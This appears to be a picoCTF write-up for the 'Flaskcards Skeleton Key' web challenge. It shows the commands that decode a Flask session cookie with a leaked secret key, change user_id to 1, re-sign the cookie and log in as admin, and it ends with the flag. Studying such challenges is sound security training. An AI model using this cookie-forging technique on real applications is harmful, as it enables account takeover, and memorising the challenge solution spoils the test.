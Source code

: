# Flaskcards Skeleton Key - Web

> Nice! You found out they were sending the Secret_key: 385c16dd09098b011d0086f9e218a0a2. Now, can you find a way to log in as admin?

This page is the same as the last challenge Flaskcards but now we have to login as admin. If I intercept the request to /admin, we see our user has a session cookie that contains the value
```.eJwlj0tqAzEQBe-itRdSt1rd8mWG_okYQwIz9irk7hak9q949VuOdeb1Ve6v8523cjyi3MvC4CmAA5QqklCOmsRDUYmGs6U1BpsNR53VyGu34FzmQgTGS4cYdeQaEI15NjAdEISunXoPJRZSTRyRhjKEoQk7L5e6Kbfi17mO188zv_efbOC-mFwmhKQDixNDInDTreW25jbh3r2vPP8jqPx9AAZePd0.DpA5UQ.ALSxhNUvHq8TDSk0gxcmee3A56E```

With the secret_key that we got in the problem description, I directly thought of this as a Flask cookie because the name of the title and that we have to modify it to get logged in as admin. Then I google about how to decode flask cookies and I find this [tool](https://github.com/noraj/flask-session-cookie-manager).

To decode the cookie with the secret key, I run:
```python2 session_cookie_manager.py decode -c ".eJwlj0tqAzEQBe-itRdSt1rd8mWG_okYQwIz9irk7hak9q949VuOdeb1Ve6v8523cjyi3MvC4CmAA5QqklCOmsRDUYmGs6U1BpsNR53VyGu34FzmQgTGS4cYdeQaEI15NjAdEISunXoPJRZSTRyRhjKEoQk7L5e6Kbfi17mO188zv_efbOC-mFwmhKQDixNDInDTreW25jbh3r2vPP8jqPx9AAZePd0.DpA5UQ.ALSxhNUvHq8TDSk0gxcmee3A56E" -s "385c16dd09098b011d0086f9e218a0a2"```

This gives us the cookie:
```{u'csrf_token': u'e12ccf75c892d8ec278c572e3271a2d571f96de3', u'_fresh': True, u'user_id': u'5', u'_id': u'f3d7982362a503585e60e576a3a556c7beb172b9136090b5c04bd7efbc8552b7fa68b54370d2d177912ba62d53ca4544da5785aae36deb386872187c7fc80000'}```

Now we need to modify it in some way so we get the admin cookie and first thing I tried was to change user_id to 1. Therefore we run the same tool to encode the new cookie now:
```python2 session_cookie_manager.py encode -s "385c16dd09098b011d0086f9e218a0a2" -t "{u'csrf_token': u'e12ccf75c892d8ec278c572e3271a2d571f96de3', u'_fresh': True, u'user_id': u'1', u'_id': u'f3d7982362a503585e60e576a3a556c7beb172b9136090b5c04bd7efbc8552b7fa68b54370d2d177912ba62d53ca4544da5785aae36deb386872187c7fc80000'}"```

This gives us the following encoded cookie
```.eJwlj0FqQzEMBe_idRaWZFlyLvORZJmGQAv_J6vSu8fQ2b_hzW851pnXV7m_znfeyvGY5V4WTRmK1NG4Eitnr8nSjYy5h3g6CPoA6nVU56jNp-TyUGZ0WdbVuZHUiRNEBqBbx8kU1ri1aSzKZkl9ppN2FQSVkBVaN-VW4jrX8fp55vf-k4ARSzh04NQMFA0WTEIB21qBNbaJ9u595fkfAeXvAwZSPdk.DpA9OQ.5l1RizweQvHgB2wM4YgXbavp40U```

This looks like the same format as the one we started with which is great. Then I change my cookie to that one and get logged in admin. Then the flag is: picoCTF{1_id_to_rule_them_all_d77c1ed6} 